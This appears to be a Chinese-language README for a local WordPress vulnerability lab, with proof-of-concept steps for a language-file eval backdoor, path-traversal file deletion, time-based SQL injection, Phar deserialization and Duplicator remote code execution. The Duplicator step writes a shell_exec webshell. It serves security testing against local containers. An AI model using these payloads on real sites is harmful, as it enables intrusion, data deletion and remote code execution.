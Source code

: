 ## 环境说明

- src/wordpress/4.6.1/

  - 后台地址

    http://127.0.0.1/wp-login.php

  - 账号/密码

    admin/admin

- src/wordpress/4.9.8/

  - 后台地址

    http://127.0.0.1/wp-login.php

  - 账号/密码

    admin/admin

  - 说明

    从4.6.1升级产生，已安装插件**WooCommerce**，根目录添加了Duplicator插件产生的installer-backup.php用于测试



## gettext + create_function 构建 wordpress 后门

测试镜像

* src/wordpress/4.6.1/

参考链接

* [Wordpress <= 4.6.1 使用语言文件任意代码执行漏洞分析](https://paper.seebug.org/63/)

Poc

1. [下载语言文件](https://translate.wordpress.org/projects/wp/4.6.x/zh-cn/default)
2. 编辑 PO 文件，修改 `Plural-Forms`
   * e.g `"Plural-Forms: nplurals=1; plural=@eval($_GET[0]);\n"`
3. 在 wordpress 后台使用这个语言文件   
4. 访问 /index.php?0=phpinfo(); 进行测试




## Wordpress <= 4.9.6 任意文件删除漏洞

测试镜像

- src/wordpress/4.6.1/

影响版本

- wordpress <= 4.9.6

参考链接

- [Wordpress <= 4.9.6 任意文件删除漏洞](https://xz.aliyun.com/t/2413)

Poc

1、登录后台，在Dashboadrd->Media->Add New处上传任意图片（如 src/wordpress/4.6.1/demo.jpeg）

2、点击edit编辑上传的图片，记录url中的item或post参数，如post=4

3、在edit页面上查找包含_wpnonce的input标签，记录value

`<input type="hidden" id="_wpnonce" name="_wpnonce" value="c9d6fb475f">`

4、浏览器中提取登录后的cookie，执行curl修改thumb为要删除的文件（环境中预先创建了用于测试的test_del_file.txt文件）：

```shell
curl 'http://172.17.0.2/wp-admin/post.php?post=4' --cookie "登录后的cookie" -d 'action=editattachment&_wpnonce=c9d6fb475f&thumb=../../../../test_del_file.txt'
```

5、在编辑图片页面点击Delete Permanently删除上传的图片，触发漏洞删除文件test_del_file.txt



## Wordpress <= 4.8.2 SQL注入漏洞

测试镜像

- src/wordpress/4.6.1/

影响版本

- wordpress <= 4.8.2

参考链接

- [WordPress ≤ 4.8.2 POST META 校验绕过漏洞](http://www.freebuf.com/vuls/153959.html)

Poc

1、登录后台，在Dashboadrd->Media->Add New处上传任意图片（如 src/wordpress/4.6.1/demo.jpeg）

2、编辑上传的图片，记录url中的post或item参数，如post=4

3、在Posts->All Posts中点击任意文章进行编辑，记录url中的post参数值，如post=1，在html中搜索_ajax_nonce-add-meta，记录value，如 `ajax_nonce-add-meta=24fb4aa9b9"`

4、浏览器中提取登录后的cookie，执行curl添加字段，参数_ajax_nonce-add-meta为3中提取的值，metavalue开头数字为上传图片的item值，这里为4，post_id为3中获取的post：

```shell
curl 'http://172.17.0.2/wp-admin/admin-ajax.php' --cookie "登录后的cookie" -d '_ajax_nonce=0&action=add-meta&metakeyinput=%00_thumbnail_id&metavalue=4%20%251$%25s%20or%20sleep(10)%23&_ajax_nonce-add-meta=24fb4aa9b9&post_id=1'
```

5、在http://172.17.0.2/wp-admin/edit.php页面上查找包含_wpnonce的input标签，记录value

`<input type="hidden" id="_wpnonce" name="_wpnonce" value="233a3d3d36">`

6、使用获取的\_wpnonce参数访问`http://172.17.0.2/wp-admin/edit.php?action=delete&_wpnonce=获取的参数&ids=4%20%251$%25s%20or%20sleep(10)%23`触发漏洞（产生查询延迟）



## Wordpress Phar反序列化漏洞

测试镜像

- src/wordpress/4.9.8/

影响版本

- wordpress <= 4.8.9 尚未修复

参考链接

- [利用 phar 拓展 php 反序列化漏洞攻击面](https://paper.seebug.org/680/)

Poc

测试镜像中已经完成了上传包含phar序列化payload的文件，只需要触发反序列化即可，如果需要生成其他的payload，可以使用以下命令生成并上传：

```shell
php -d phar.readonly=false gen-phar-payload.php
```

测试命令

```shell
curl -d "<?xml version="1.0" encoding="utf-8"?><methodCall><methodName>wp.getMediaItem</methodName><params><param><value><string>11</string></value></param><param><value><string>admin</string></value></param><param><value><string>admin</string></value></param><param><value><int>12</int></value></param></params></methodCall>"  http://127.0.0.1/xmlrpc.php
```



## Wordpress Duplicator 插件代码执行漏洞

测试镜像

- src/wordpress/4.9.8/

影响版本

- Duplicator <= 1.2.40 尚未修复

参考链接

- [Remote code execution vulnerability in WordPress Duplicator](https://www.synacktiv.com/ressources/advisories/WordPress_Duplicator-1.2.40-RCE.pdf)

Poc

测试镜像中已经添加了包含漏洞的文件installer-backup.php，测试方法：

```shell
curl -d "action_ajax=3&action_step=3&dbhost=nowhere&dbuser=test&dbpass=test&dbname=test');
file_put_contents(\"test.php\", '<pre><?php if (isset(\$_GET[\"synacktiv_backdoor\"])) { echo
shell_exec(\$_GET[\"synacktiv_backdoor\"]); } ?></pre>'); /*&dbport=12345&"  http://127.0.0.1/installer-backup.php && curl http://127.0.0.1/wp-config.php
```
访问在根目录生成的webshell test.php:
```shell
curl http://127.0.0.1/test.php?synacktiv_backdoor=id
```



